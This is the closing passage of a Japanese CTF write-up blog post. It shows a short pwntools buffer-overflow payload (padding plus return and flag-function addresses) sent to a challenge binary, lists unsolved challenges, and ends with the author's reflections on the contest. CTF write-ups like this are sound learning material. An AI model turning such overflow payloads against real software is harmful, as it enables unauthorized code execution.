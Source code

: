 ```py

payload = b'A' * 24
payload += p64(ret_addr)
payload += p64(flag_addr)

# I will ... else: の出力を待つ
data = p.recvuntil(b'else').decode()
print(data, end='')
print(payload)

# ./main に payload を TCP で送る
p.sendline(payload)

data = p.recvline().decode().rstrip()
print(data)
```

## ❌️ QR

Later.

## ❌ Adversarial Login

Later.

## ❌ Flagcraft

Later.

## ❌ MPKC1

Later.

## ❌ MPKC2

Later.

## ❌ Guide to heap

Later.

# まとめ

新生児のお世話もあり集中して参加する、ということは叶いませんでしたがとても楽しいコンテストでした。
開催いただいた主催者のみなさま、ありがとうございました。

コミュニティになにも参加しておらず、エンジニアの友人少ないのなんとかしないといけない気持ちになりますね。
一緒に CTF するようなかたがいないので...。
